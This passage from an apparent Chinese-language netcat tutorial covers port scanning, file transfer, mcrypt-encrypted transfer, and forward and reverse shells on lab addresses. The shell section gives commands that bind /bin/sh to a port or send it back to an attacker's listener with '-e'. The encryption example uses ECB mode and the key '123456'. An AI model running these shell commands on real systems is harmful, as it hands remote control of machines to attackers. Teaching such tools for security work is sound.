- -n : 使用ip而不使用域名
- -p : 使用本地主机的端口，默认是tcp协议的端口
- -r : 任意指定本地及远程端口
- --U : 使用Unix的socket
- -u : 使用udp协议
- -v : 详细输出
- -z : 将输入输出关掉，即不进行交互，用于扫描时，注意在nmap的版本下没有这个参数
- -w : 设置连接超时时间，单位秒


## 常用功能

### 1.端口扫描

扫描指定端口: `nc -nvz 192.168.47.149 80`

	


扫描指定范围端口: `nc -nvz 192.168.47.149 80-90`

	


### 2.文件传输

#### 正向传输:客户端传送文件至服务端

服务端: `nc -lp 4444 > result.txt`

客户端: `nc 192.168.47.134 4444 < result.txt`

服务端按`ctrl+c`, 随后查看传送过来的result.txt文件

	


#### 反向传输:服务端传送文件至客户端

服务端: `nc -lp 4444 < result.txt`

客户端: `nc  -n 192.168.47.134 > result.txt` 

在客户端查看传送过来的result.txt文件

	


### 3.加密传输文件

由于LINUX系统默认没有安装mcrypt库, 需先安装: `apt-get install mcrypt`

服务端: `nc -lp 4444 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb -k 123456 > result.txt`

客户端: `mcrypt --flush -Fbq -a rijndael-256 -m ecb -k 123456 < result.txt | nc -nv 192.168.47.134 4444 -q 1`	

> -k: 指定加密时所用到的密码, 若不指定, 输入回车时需要输入加密密码

	


## 正向/反向Shell

### 反向Shell	

如下图所示, 目标主机反向连接攻击机的4444端口, -e选项将Bash Shell发送给攻击机, 若目标主机为windows, 需设置成`-e cmd`

	


先在攻击机开启监听4444端口: `nc -lvp 4444`	

	


在目标主机反弹Shell: `nc 192.168.47.134 4444 -e /bin/sh`

	


再返回攻击机查看反弹回来的shell, 并输入`ifconfig`命令进行测试

		


### 正向Shell	

	


先在目标主机创建监听, 并把一个bash shell绑定到4444端口

```
nc -lvp 4444 -e /bin/sh
```

		


在攻击机连接目标主机的4444端口,以此来接收反弹的shell, 并输入`ifconfig`命令测试

```
nc 192.168.47.151
```

	

​	

## 关于nc无法使用-e参数

### 问题详情

由于很多Linux默认安装的是netcat-openbsd(老版本), 而NetCat老版本是无法使用-e参数的, 于是需要对其更新成netcat-traditional版本


### 解决方法

**1.安装 netcat-traditional**

```
apt-get -y install netcat-traditional
```

	


**2.配置netcat版本, 随后选择版本为traditional的编号并按回车键**

```
update-alternatives --config nc
```

	


​	
